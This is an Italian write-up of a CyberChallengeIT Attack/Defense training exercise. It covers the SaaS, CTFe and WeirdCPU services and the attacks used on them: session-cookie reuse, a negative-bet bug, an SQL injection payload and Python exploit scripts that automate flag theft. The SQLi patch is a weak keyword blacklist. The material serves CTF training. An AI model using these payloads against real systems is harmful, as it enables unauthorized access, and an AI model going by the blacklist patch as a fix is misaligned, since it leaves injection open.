




# Simulazione 3

Terza simulazione in formato Attack/Defense svolta il 15 e 16 giugno per l'addestramento previsto dal percorso CyberChallengeIT.

I servizi qui proposti erano:
* CTFe
* NotABook
* SaaS
* WeirdCPU

## SaaS
_Categoria: web, misc_

Saas è una piattaforma per lo storage di progetti e di dati.
Essa permette all'utente di:
* registrarsi
* fare il login
* creare un progetto
* caricare un file in un progetto
* recuperare un progetto

### Exploit
La flag era contentuta in un file caricato da un utente sconosciuto.
Per recuperare la flag bisognava capire quale utente avesse caricato il file, effettuare il login e, infine, scaricare il file stesso.
Per effettuare il login impersonificando un altro utente era sufficiente allegare alla propria richiesta un cookie flask di sessione che certificasse il login. Tramite i pcap ci siamo resi conto che il valore all'interno del cookie che garantiva il login era sempre lo stesso. Inserendo questo valore nel nostro cookie quindi, potevamo effettuare l'accesso impersonificando qualsiasi utente. 
Per individuare l'owner del file di nostro interesse abbiamo usato il metodo _file_ che restituiva 401 se il file non apparteneva all'utente che lo richiedeva.

```python
@ui.route('/project/<uid>/file/<file_uid>', methods=['GET', 'POST'])
@auth
@project_exists
def file(uid, file_uid):
    # check if the user has access to the project
    if g.user not in g.project.users:
        abort(401)
    
    file = PFiles.query.filter(PFiles.uid == file_uid).first()

    if not file:
        abort(404)
    

    return render_template('file.html', file=file)
```

Avendo da flagIds l'identificativo del file di nostro interesse, è bastato un bruteforce sugli utenti per capire il suo creatore.

A questo punto è bastato scaricare il file e inviare la flag


## CTFe
_Categoria: web, misc_

CTFe è un servizio web che fornisce 2 flag stores e che vuole replicare, a sua volta, la piattaforma di gioco delle CTF Attack/Defense. Fornisce delle regole in cui determina il formato delle flag, ovvero FKE\\{\[0-9a-z\]{32}\\}, e mette a disposizione un'area di training, la scoreboard e l'area relativa alle challenges. Le challenges sono due: Cat roulette e NotEBook.



Una volta effettuato il login (previa registrazione), è possibile anche accedere ad un'area "Attack" che permette di indicare quale dei due servizi si vuole attaccare. Fatta questa scelta, viene eseguito il servizio e viene fornito un token per poterci accedere tramite netcat.

Ma qual è l'obiettivo di questo servizio? Bisogna scegliere quale servizio attaccare e sfruttare le vulnerabilità lì presenti. Attaccato uno dei due servizi, se si avrà successo si riceverà la flag relativa a questa piattaforma di gioco. A quel punto, questa flag dovrà essere sottomessa attraverso la sezione "Submit a flag". Alla fine, il server risponderà con la sua reale flag.

### CTFe-1

CTFe-1 si riferisce alla challenge "Cat roulette", prevista dal servizio CTFe.



Essa permette sostanzialmente di simulare dei giochi da casinò. Ogni giocatore parte con 10 monete iniziali e se riesce a raggiungere le 10000 vincerà la flag.

#### Vulnerabilità - Negative bet

La vulnerabilità individuata prevede che l'utente possa inserire una puntata negativa. Infatti non viene effettuato alcun controllo sul valore inserito dall'utente.

```php
$bet = (int)readline_p("Gimme bet: ");
```

Il valore di $bet inserito viene poi sottratto dal valore corrente di $money. Chiaramente, se l'utente inserisce una puntata negativa verranno aggiunte le monete al suo saldo anziché essere tolte, e tutto ciò indipendentemente dalla vittoria o meno.

```php
$money -= $bet;
```

#### Exploit

L'obiettivo dell'exploit è stato quindi quello di andare ad automatizzare il processo descritto.

Inizialmente, si registrava un utente casuale per la piattaforma CTFe generale.

```python
def get_flag(ip, hint):
	session = requests.Session()
	with context.quiet:
		url = f"http://{ip}/register"
		team = generate_random_string(10)
		password = generate_random_string(10)
		data = f"team_name={team}&password={password}&submit=Register"
		headers = {"Content-Type": "application/x-www-form-urlencoded"}
		resp = session.post(url, data=data, headers=headers, timeout=1)
```

In seguito, si richiedeva di attaccare il servizio "Cat roulette" per ricevere il token necessario per accedere al servizio.

```python
		url = f"http://{ip}/attack"
		resp = session.get(url, data=data, headers=headers, timeout=1)
		tick = resp.text.split("Tick #")[1].split("\n")[0]


		url = f"http://{ip}/attack"
		data = f"team=Nop_Team&tick={tick}&service=1&submit=Attack%21"
		headers = {"Content-Type": "application/x-www-form-urlencoded"}
		resp = session.post(url, data=data, headers=headers, timeout=1)

		token = re.findall("Your token is: .*", resp.text)[0].split("<code>")[1].split("</code>")[0]
```

Infine, si accedeva al servizio andando ad impostare come puntata il valore -10000, così da avere,certamente, alla fine della giocata, le monete necessarie a stampare la flag.

```python
		sess_pwn = remote(f"{ip}", 5005, timeout=1)
		sess_pwn.sendlineafter(b"token: ", token.encode(), timeout=1)
		sess_pwn.sendlineafter(b"choice: ", b"1", timeout=1)
		sess_pwn.sendlineafter(b"bet: ", b"-10000", timeout=1)
		sess_pwn.sendlineafter(b"number? ", b"1", timeout=1)
		resp = sess_pwn.recvuntil(b"}").decode()
		flag_fke = resp.split("\n")[4]
```

Per concludere, la flag ricevuta veniva sottomessa nella piattaforma CTFe e si riceveva la flag vera e propria.

```python
	url = f"http://{ip}/submit"
	data = f"flag={flag_fke}&team=Nop_Team&service=1&submit=Send"
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	resp = session.post(url, data=data, headers=headers, timeout=1).text
	
	flag = resp.split("Congratz! here your flag and some points:")[1].split("\n")[0].strip()

	return flag
```

#### Patch

La patch che è stata attuata era semplicemente quella di aggiungere un controllo su $bet. In questo modo se $bet < 0, allora la si imposta a 0.

```php
if ($bet < 0) {
    $bet = 0;
}
```


### CTFe-2

CTFe-2 si riferisce alla challenge "NotEBook", prevista dal servizio CTFe.



Essa funge da gestore di appunti. Infatti, permette di aggiungere, leggere ed eliminare appunti.

#### Vulnerabilità - SQLi

Per questa vulnerabilità è stata d'aiuto l'analisi di alcuni pcap catturati. Come possiamo vedere il problema principale è che è possibile inserire al posto di un appunto vero e proprio, una SQL Injection. Grazie a questa possiamo fare in modo di avere anche le note dell'admin e leggerle. In particolare all'interno della seconda nota si trova la flag.

#### Exploit

L'exploit a questo punto è simile al precedente. Ci si registra con credenziali casuali. Si attacca/abilita il servizio specificato. Infine, si aggiunge una nota che ha però il seguente contenuto "'||(SELECT data FROM heap WHERE ptr = 1)) --"

```python
sess_pwn.sendlineafter(b">", b"'||(SELECT data FROM heap WHERE ptr = 1)) --", timeout=1)
```

Questa nota aggiunta ci permette di prelevare le note dell'admin e di leggerla. Per concludere si invia la flag alla piattaforma che restituisce quella reale (come già specificato prima).

#### Patch

Per poter patchare questa vulnerabilità, l'idea più veloce è stata quella di sanitizzare l'input relativo al testo della nota, effettuando i seguenti controlli.

```php
echo "Enter your text, a max of 60 characters is allowed.\n";
$text = readline_p('>');
$text = str_replace("'","",$text);
$text = str_replace("--","",$text);
$text = str_replace("(","",$text);
$text = str_replace(")","",$text);
$text = str_replace("||","",$text);
$text = str_replace("SELECT","",$text);
$text = str_replace("FROM","",$text);
$text = str_replace("WHERE","",$text);
```


## WeirdCPU
_Categoria: web, hardware_

WeirdCPU è una piattaforma che offre il servizio CPU-as-a-Service (CaaS) per eseguire programmi scritti seguendo la programmazione FPGA (Field-Programmable Gate Array), ovvero un tipo di programmazione basato su un linguaggio di descrizione dell'hardware, che consente di creare un circuito logico per eseguire un algoritmo.

L'applicazione web consente quindi di caricare del codice scritto in VHDL ed eseguirlo su un cloud remoto.



### Vulnerabilità

Per questa challenge è stata fondamentale l'analisi della rete e del traffico. Non avendo infatti solide conoscenze in ambito hardware, è stato sfruttato il tool Tulip per analizzare un pcap catturato in precedenza. È stato quindi possibile vedere come gli altri teams ci attaccavano per poi replicare l'attacco.

#### Exploit

L'obiettivo dell'exploit era di eseguire una richiesta POST all'endpoint "/run", inviando un file binario con un certo contenuto. La relativa risposta forniva poi la flag.

```python
def get_flag(ip, hint):
	url = f"http://{ip}:5000/run"
	headers = {"X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarye6eIvjgh2UoAN1QV"}
	data = "------WebKitFormBoundarye6eIvjgh2UoAN1QV\r\nContent-Disposition: form-data; name=\"program\"; filename=\"program.bin\"\r\nContent-Type: application/octet-stream\r\n\r\n?\x06\x00\r\n------WebKitFormBoundarye6eIvjgh2UoAN1QV--\r\n\r\n"
	resp = requests.post(url, headers=headers, data=data, timeout=3).json()

	flag = resp["flag"]

	return flag
```


## NotABook
_Categoria: pwn, crypto_

### NotABook-1

### NotABook-2